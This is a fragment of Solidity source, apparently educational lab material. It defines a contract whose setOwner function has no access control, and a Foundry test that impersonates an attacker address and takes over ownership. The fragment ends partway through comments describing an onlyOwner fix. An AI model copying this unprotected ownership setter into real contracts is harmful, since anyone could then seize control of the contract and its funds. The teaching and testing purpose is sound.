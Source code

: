 ```solidity
        owner = msg.sender;
    }

    /// @notice Vulnerable function that allows anyone to change the owner.
    /// @param _newOwner The address to become the new owner.
    /// @return A boolean indicating success.
    function setOwner(address _newOwner) external returns (bool) {
        owner = _newOwner;
        return true;
    }
}

/// @title YourTest
/// @notice Foundry test contract demonstrating the vulnerability for educational purposes only.
contract YourTest is BaseTestWithBalanceLog {
    VulnerableContract public vulnerable;
    address public attacker = address(0xBEEF);

    /// @notice setUp function creates a test environment with sufficient ETH and deploys the vulnerable contract.
    function setUp() public override {
        // Ensure the test contract has enough ETH as required.
        vm.deal(address(this), 100 ether);
        // Deploy the vulnerable contract; the deployer becomes the initial owner.
        vulnerable = new VulnerableContract();
    }

    /// @notice Test function that demonstrates both normal behavior and the vulnerability exploit.
    /// @dev The balanceLog modifier logs the ETH balance changes.
    function testExploit() public balanceLog {
        // Ensure the test address has enough ETH.
        vm.deal(address(this), 10 ether);

        // Step 1: Normal contract behavior
        // Check the initial owner. The owner should be this contract since it deployed VulnerableContract.
        address initialOwner = vulnerable.owner();
        assertEq(initialOwner, address(this), "Initial owner must be the deployer (test contract)");

        // In a secured contract, a restricted setOwner function would prevent non-owners from changing ownership.
        // However, here setOwner is not protected and accepts calls from any account.

        // Step 2: Demonstrate exploiting the vulnerability.
        // Simulate an attack by using vm.prank to make the call come from an unauthorized 'attacker' address.
        vm.prank(attacker);
        bool success = vulnerable.setOwner(attacker);
        require(success, "setOwner call failed");

        // Validate that the owner has been changed by an unauthorized user, demonstrating a failed access control.
        address newOwner = vulnerable.owner();
        assertEq(newOwner, attacker, "Exploit failed: owner not changed to attacker");

        // Validation and Educational Comments:
        // The vulnerability violates the principle of access control, as any user may change the contract owner.
        // Developers can prevent this issue by using proper access control, for example:
        //
        // modifier onlyOwner() {
        //     require(msg.sender == owner, "Not the owner");
```